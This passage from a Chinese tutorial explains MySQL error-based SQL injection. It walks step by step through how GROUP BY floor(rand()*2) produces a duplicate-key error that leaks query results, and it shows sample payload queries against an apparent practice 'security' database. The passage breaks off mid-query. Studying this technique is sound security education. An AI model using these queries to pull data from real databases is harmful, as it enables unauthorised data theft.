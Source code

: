 > +---------------------+------------------+
> 13 rows in set (0.00 sec)
> ```
>
> 这说明`floor(rand(0)*2)`这个序列为`[0,1,1,0,1,1,......]`
>
> 现在我们考虑这个SQL语句：`SELECT count(*) FROM users GROUP BY floor(rand(0)*2)`：
>
> 1. 执行`SELECT count(*) FROM users GROUP BY floor(rand(0)*2)`，首先MySQL会创建一张临时表：
>
>    | `floor(rand(0)*2)`(主键) | `count(*)` |
>    | ------------------------ | ---------- |
>
> 2. 接着读取`users`表的第一行，执行`floor(rand(0)*2)`表达式，得到值`0`，发现临时表的主键中没有`0`这一项，于是创建一行，新增的这一行的主键为`1`：
>
>    | `floor(rand(0)*2)`(主键) | `count(*)` |
>    | :----------------------: | :--------: |
>    |           `1`            |     1      |
>
> 3. 接着读取`users`表的第二行，执行`floor(rand(0)*2)`表达式，得到值`1`，发现临时表主键中已经有`1`这一项了，于是不再尝试新增一行，也不会重新计算表达式，而是直接让`count(*)`自增：
>
>    | `floor(rand(0)*2)`(主键) | `count(*)` |
>    | :----------------------: | :--------: |
>    |           `1`            |     2      |
>
> 4. 接着读取`users`表的第一行，执行`floor(rand(0)*2)`表达式，得到值`0`，发现临时表的主键中没有`0`这一项，于是尝试创建一行，重新计算一遍表达式，得到`1`，并将其作为新增行的主键：
>
>    | `floor(rand(0)*2)`(主键) | `count(*)` |
>    | :----------------------: | :--------: |
>    |           `1`            |     2      |
>    |           `1`            |     1      |
>
> 至此问题出现了——不能重复的主键竟然重复了！MySQL敏锐地察觉到了这一问题，并且阻止程序添加新行，于是程序会爆出`ERROR 1062 (23000): Duplicate entry '<ColumnNameWithRAND()>' for key 'group_key'`的错误。其中`<ColumnNameWithRAND()>`是所需表达式执行后的结果，利用这一点可以实现错误注入。
>
> ```sql
> SELECT CONCAT((SELECT database()),floor(rand()*2)) AS something
> 	FROM INFORMATION_SCHEMA.TABLES
> 	WHERE TABLE_SCHEMA='security';
> 			+-----------+
> 			| something |
> 			+-----------+
> 			| security0 |
> 			| security0 |
> 			| security1 |
> 			| security0 |
> 			+-----------+
> SELECT CONCAT((SELECT database()),floor(rand()*2)) AS something
> 	FROM INFORMATION_SCHEMA.TABLES
> 	WHERE TABLE_SCHEMA='security'
> 	GROUP BY something;
> 			+-----------+
> 			| something |
> 			+-----------+
> 			| security0 | 
> 			| security1 |
> 			+-----------+
> -- 执行下列语句会得到不同的结果，自检得到成功频率=41/80，失败频率=39/80，大概五五开
> SELECT
> 	COUNT(*),
> 	CONCAT((SELECT database()),floor(rand()*2)) AS something
> 	FROM INFORMATION_SCHEMA.TABLES